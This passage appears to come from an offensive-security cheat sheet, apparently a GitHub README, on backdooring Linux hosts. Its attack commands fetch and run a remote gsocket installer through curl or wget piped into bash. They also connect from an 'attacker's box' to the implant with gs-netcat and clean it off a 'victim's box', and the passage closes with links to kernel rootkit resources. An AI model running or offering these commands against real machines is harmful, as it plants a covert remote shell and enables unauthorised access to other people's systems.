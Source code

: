 ```
$ bash -c "$(curl -fsSL gsocket.io/x)"
$ bash -c "$(wget -qO- gsocket.io/x)"
```


#### Connect

Attacker's box:

```
$ cd ~/tools && bash -c "$(curl -fsSL https://tiny.cc/gsinst)" && cd
$ ~/tools/gsocket/tools/gs-netcat -s "<SECRET>" -i
```


#### Clean Up

Victim's box:

```
$ GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
$ GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"

$ pkill gs-bd
```



### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)
* [https://github.com/eeriedusk/nysm](https://github.com/eeriedusk/nysm)
